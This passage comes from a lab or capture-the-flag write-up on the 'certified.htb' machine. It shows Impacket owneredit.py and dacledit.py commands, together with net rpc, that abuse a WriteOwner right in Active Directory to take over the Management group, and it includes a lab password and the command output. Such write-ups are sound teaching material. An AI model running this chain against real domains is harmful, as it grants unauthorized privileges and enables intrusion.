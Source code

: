 
Here, we can see that **judith.mader** has **WriteOwner** permissions on the **Management** account. This means we can change the owner of the **Management** account in Active Directory.

### Steps to Exploit This:
#### 1️ Changing Ownership with `owneredit.py`
**What this does:**  
- Changes the owner of the **Management** object to **judith.mader**.  
- Since the owner can modify permissions, this sets up the next step.

#### 2️ Modifying DACL (Permissions) with `dacledit.py`
**What this does:**  
- Grants **judith.mader** **WriteMembers** permission on the **Management** group.  
- This means **judith.mader** can now add or remove members from the group.

#### 3️ Adding `judith.mader` to the "Management" Group
**What this does:**  
- Uses `net rpc` to add **judith.mader** to the **Management** group.  
- Since **judith.mader** has **WriteMembers** permission, the command succeeds.  


```jsx
                                                                                                                                                             
┌──(kali㉿kali)-[~/tool_pentest]
└─$ python3 owneredit.py -action write -new-owner 'judith.mader'  -target 'management' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
                                                                                                                                                             
┌──(kali㉿kali)-[~/tool_pentest]
└─$ python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target 'Management' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250214-022332.bak
[*] DACL modified successfully!
                                                                                                                                                             
┌──(kali㉿kali)-[~/tool_pentest]
└─$ net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"
```
Now, we verify the members of the **Management** group using:`rpc group members Management`

```jsx                                                          
┌──(kali㉿kali)-[~/tool_pentest]
└─$ net rpc group members "Management" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"                      
CERTIFIED\judith.mader
CERTIFIED\management_svc
                                
```